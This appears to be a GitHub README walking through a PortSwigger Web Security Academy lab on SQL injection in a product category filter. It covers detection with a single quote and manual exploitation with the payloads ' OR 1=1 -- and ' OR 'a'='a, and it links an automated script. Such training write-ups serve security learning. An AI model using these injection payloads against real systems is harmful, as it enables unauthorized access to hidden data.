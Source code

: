 \+ Lab #1    : SQL injection in WHERE clause\
\+ Lab Level : Apprentice\
\+ Link      : https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data \


## About:
This lab contains a [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability in the product category filter.<br/> 
When the user selects a category, the application carries out a SQL query like the following: 
```SQL
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```
To solve the lab, perform a SQL injection attack that causes the application to display details of all products in any category, both released and unreleased. 

## Detection: 
* Submit a single quotation mark ```'``` in ```/filter?category=Gifts``` to break out the original SQL query quotation marks and cause an error
* The resulting query sent by the App to the back-end database:
```SQL
SELECT * FROM products WHERE category = 'Gifts'' AND released = 1
```
* The App returns a ```500 Internal Server Error``` response, which means that an error has occured in the back-end while processing the query.
* The ```category``` parameter is vulnerable to SQL injection.

## Exploitation:
### Manual:
1. Intercept the request with Burp Suite proxy
2. Send the request to repeater
3. Inject the ```category``` parameter with the following payload: ``` ' OR 1=1 --``` 
4. The resulting SQL query sent by the App to the backend database: 
```SQL
SELECT * FROM products WHERE category = '' OR 1=1 --' AND released = 1
SELECT * FROM products WHERE category = '' OR 1=1
```
> :memo: **Note:** The following payload ```' OR 'a'='a``` is also valid and achieves the same result as the 1=1 attack to return all products, regardless of whether they have been released.
```SQL
SELECT * FROM products WHERE category = '' OR 'a'='a' AND released = 1 
```

### Automated:
* Refer to https://github.com/YounesTasra-R4z3rSw0rd/Web-Security-Academy/blob/main/SQL%20Injection/Lab%231/Lab-1.py
* Requirements:
```bash
pip3 install -m requirements.txt
```
* Help Menu: 
```bash
$ python3 Lab-1.py --help
usage: Lab-1.py [-h] -u URL [-n]

Usage Example: python3 Lab-1.py --url https://0a2100.web-security-academy.net/ --no-proxy

options:
  -h, --help         show this help message and exit
  -u URL, --url URL  Enter the Lab URL
  -n, --no-proxy     Do not use proxy                               
```
![Lab#1](https://user-images.githubusercontent.com/101610095/219432009-faf5cc9a-1828-47fc-8f9d-07eaa67ebb20.gif)
